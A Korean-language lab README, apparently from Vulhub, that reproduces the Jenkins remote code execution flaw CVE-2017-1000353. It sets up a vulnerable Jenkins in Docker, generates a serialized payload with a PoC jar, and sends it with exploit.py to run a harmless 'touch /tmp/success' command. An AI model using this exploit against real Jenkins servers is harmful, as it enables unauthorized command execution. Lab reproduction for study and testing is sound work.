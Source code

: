 # Jenkins-CI 원격 코드 실행 취약성（CVE-2017-1000353）

## 원리

참고 사이트 https://blogs.securiteam.com/index.php/archives/3171

## 환경구축

다음 명령어를 입력jenkins 2.46.1：

```
docker compose up -d
```

부팅완료후 `http://your-ip:8080`로 접속하면 jenkins가 자동적으로 설치됨

## 테스트 과정

### 1단계 직렬화된 문자열 생성

참고<https://github.com/vulhub/CVE-2017-1000353>，poc생성 도구인 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，을 머저 다운로드

아래의 face명령을 실행하여 바이트 코드 파일을 생성： 

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser은 생성된 바이트 코드 파일 이름
# "touch ..."은 실행할 명령
```

위의 코드를 실행하면 jenkins_poc가 생성됩니다.ser 파일은 직렬화된 문자열

### 2단계 패킷전송,명령실행

익스플로잇다운[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3실행`python exploit.py http://your-ip:8080 jenkins_poc.ser`，방금 생성한 바이트 코드 파일을 대상에게 전송함：

![](1.png)

도커에 들어가서`/tmp/success`가 생성되며 명령 실행 취약점을 성공적으로 이용했음을 나타냄

![](2.png)
